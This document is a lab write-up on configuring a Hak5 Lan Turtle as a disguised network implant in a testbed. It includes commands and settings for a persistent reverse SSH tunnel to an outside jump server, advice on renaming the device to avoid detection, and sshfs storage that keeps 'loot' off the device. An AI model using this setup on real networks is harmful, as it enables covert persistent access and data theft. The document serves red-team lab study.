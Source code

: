 # Lan Turtle

To represent a physical implant that provides persistent remote access, we selected the [Lan Turtle by Hak5](https://hak5.org/products/lan-turtle). This device is designed to look like a USB Ethernet adapter (or a USB-to-Ethernet KVM) but is really an embedded Linux system that can provide a number of simple capabilities. The unit we had also contained the 3G modem, but we elected not to use it for this setup.

## Configuration

In theory, updating the device to the latest firmware should be easy and straight-forward. It isn't... at least not for me, and a number of others who (helpfully) posted their struggles online.

You should be able to use the `turtle` command, enter the configuration menu, check for updates, apply, reboot, and be golden. The problem I faced, however, was that when I did this, I ended up with a device that would no longer pull modules, check for updates, anything.

After much debugging and gnashing of teeth, it became clear that the issue was that the date/time on the device was out of sync, and therefore SSL validation would fail. Some suggested simply disabling SSL cert validation, but this seems unwise on a security-focused device. Making things further frustrating, I learned that AT&T blocks NTP packets due to network threats, so the configured-by-default NTP client on the turtle fails to obtain an updated time value.

What I ended up figuring out, is as follows:

```bash
# ssh into the turtle, exit the configuration utility 
# and end up at the shell

# update the software listing
$ opkg update

# install a non-NTP-based time update utility
$ opkg install htpdate

# force the time to be updated (using the webserver at 1.1.1.1;
# could be really any valid site)
$ htpdate -s 1.1.1.1
```

Once this is done, it is not a bad idea to add this last command (`htpdate -s 1.1.1.1`) into `/etc/rc.local` so it gets executed on each system start. 

```{warning}
It might make most sense to change this to daemon mode so it runs all the time

    ```
    htpdate -D 1.1.1.1
    ```
```

After following all of these steps, I was able to successfully update the device to firmware version `6.2-stable`. For reference, additional firmware files and details are available here: https://downloads.hak5.org/turtle. 

Another general configuration step to assist with the _stealthy-ness_ of the activities, is to edit `/etc/config/system` and change the `hostname` to something other than `turtle`. Making it something less obvious may help hide it longer (e.g. `usbeth0`).

Additionally, I deployed the ssh public key from my attacker machine to the turtle to make subsequent logins easier.

```bash
ssh-copy-id -i ~/.ssh/id_rsa.pub root@172.16.84.1
```

The next configuration activities included installing and configuring the modules. 

### Modules

From within the `turtle` shell, you can choose `Modules` and then select the `modulemanager` module. The `start` and `enable` functions do not really apply for this module, but `Configure` does. From the configuration manager, you choose to update the directory, agree to connect to `lanturtle.com` and then browse/select the modules you'd like to install. For this instance, I chose to keep things simple and just installed the following: `autossh`, `keymanager`, and `sshfs`. Once these have been installed, you can step back a few screens to the main _Modules_ window where you will see and be able to configure the installed modules.

### KeyManager

This module is another that you simply configure, and the only thing I needed to do here was the `generate_key` command. This is just a UI-wrapper on `ssh-keygen`. Once this is done, I needed to transfer the public key (`/.ssh/id_rsa.pub`) to the account on the cloud-hosted jump server. 

```{note}
On the jump server, I had previously configured an account (`turtle`) that would be used by this device. Additionally, if the jump server allowed password-based SSH connections, the `KeyManager` module would have allowed me to deploy my key directly. However, since I am only allowing keys, I have to shuffle it through another account and cannot use the automated scripts.
```

### AutoSSH

The `autossh` module maintains persistent SSH shells to another server and can forward local ports to the remote server for the purpose of enabling reverse tunnling through the established shell. This is a more _normal_ module, so we begin by configuring it:

- user@host: `turtle@george.bitpredator.com`
- Port: `22`
- Remote Port: `2222`
- Local Port: `22`

The last two lines expose port `22` on the turtle's local network interface to port `2222` on the host it is going to tunnel to (in this case, `george.bitpredator.com`). We submit these settings and then select `enable` to have it start each time the device boots up, and finally we click `start` to get it up and running.

```{warning}
In prior versions, the instructions up to this point would have worked just fine. However, the last `start` command now fails because my jump server host is not in the `known_hosts` file. In an effort to be maybe a little too smart, this is now bundled into the `copy_key` configuration option of the `keymanager` module, which won't work for me because of my password-less restriction on the jump server. I simply exited to the shell, manually established an SSH connection to my jump server which caused bash to prompt me to update `authorized_keys`. This being done (and confirming that the connection worked), I was able to return to the turtle shell (`turtle`) and start this module.
```

### SSHFS

The last module to configure is `sshfs`. This simply mounts a remote file system as if it were local. In this case, it allows us to expand the rather meager storage of the turtle to whatever amount of disk is available in my jump server. The configuration of this module is rather simple:

- Host: `george.bitpredator.com`
- Port: `22`
- User: `turtle`
- Path: `/home/turtle`

This will map the local `/sshfs` directory on the turtle to the `/home/turtle` directory on the jump server. Now we submit the configuration, enable it, and then start it.


## Deployment

In the testbed, the turtle is plugged into a USB port on `Lap01` for the purposes of providing power. It could theoretically also provide some MITM capabilities for this machine, but we are not using them. The ethernet jack is connected directly to the primary switch and it serves as a remotely-accesible beachhead. 
<!-- 
```mermaid
graph LR
  A[Router] -- > B[Switch];
  B -- > C[Lap01];
  B -- > D[Turtle];
  C -- > D;
  B -- > E[Lap02];
```
-->

![](../assets/images/turtle_layout.png)

![](../assets/images/turtle.jpg)


## Use

With the device configured and deployed into the test bed, it will provide me a remotely-accessible shell any time I need it. The following demonstrates its use:

```bash
# Connect from my attacker machine to my jump server
$ ssh root@george.bitpredator.com

# copy my local ssh key (on jump server) to turtle
$ ssh-copy-id -i .ssh/id_rsa.pub root@localhost -p 2222

# Connect via the reverse ssh tunnel into the turtle/target env
$ ssh root@localhost -p 2222

# write files to turtle's "local" storage, remapped to jump server
$ touch /sshfs/bubb02
```

```{tip}
One key feature of using `sshfs` on the turtle as the storage location for "loot", is that if the device happens to be found and/ore disconnected by a local user/network admin, anything that you had gathered will not actually reside on the turtle, but instead on the drive of the jump server which remains in your control
```
